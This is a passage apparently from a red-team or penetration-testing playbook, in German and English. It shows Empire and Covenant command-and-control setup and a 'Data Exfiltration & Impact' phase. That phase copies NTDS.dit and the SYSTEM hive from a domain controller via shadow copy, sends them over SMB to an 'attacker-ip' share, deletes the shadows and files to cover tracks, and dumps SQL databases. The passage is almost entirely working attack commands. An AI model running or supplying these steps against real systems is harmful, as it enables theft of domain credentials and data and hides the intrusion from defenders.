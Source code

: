 ```bash
(Empire: stager/multi/launcher) > set Listener https
(Empire: stager/multi/launcher) > execute
```

#### Covenant C2 Alternative
```bash
# Covenant kompilieren und starten
cd /opt/Covenant/Covenant
dotnet run

# Web Interface: https://localhost:7443
# Listener und Launcher via GUI konfigurieren
```

---

## Phase 9: Data Exfiltration & Impact

### 9.1 Critical Data Identification

#### NTDS.dit Exfiltration
```powershell
# Volume Shadow Copy auf Domain Controller
PS> vssadmin create shadow /for=C:
PS> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
PS> reg save HKLM\SYSTEM C:\temp\system.hiv

# Exfiltration via SMB
PS> copy C:\temp\ntds.dit \\attacker-ip\share\
PS> copy C:\temp\system.hiv \\attacker-ip\share\

# Cleanup
PS> vssadmin delete shadows /shadow={shadow_id}
PS> del C:\temp\ntds.dit
PS> del C:\temp\system.hiv
```

#### SQL Database Exfiltration
```sql
-- Backup aller Datenbanken
BACKUP DATABASE master TO DISK = 'C:\temp\master.bak';
BACKUP DATABASE msdb TO DISK = 'C:\temp\msdb.bak';

-- Sensitive Datenbank-Inhalte identifizieren
SELECT name FROM sys.databases WHERE database_id > 4;

-- Custom Database Backups
BACKUP DATABASE [DatabaseName] TO DISK = 'C:\temp\sensitive_data.bak';
```

### 9.2 Active Directory Data Mining
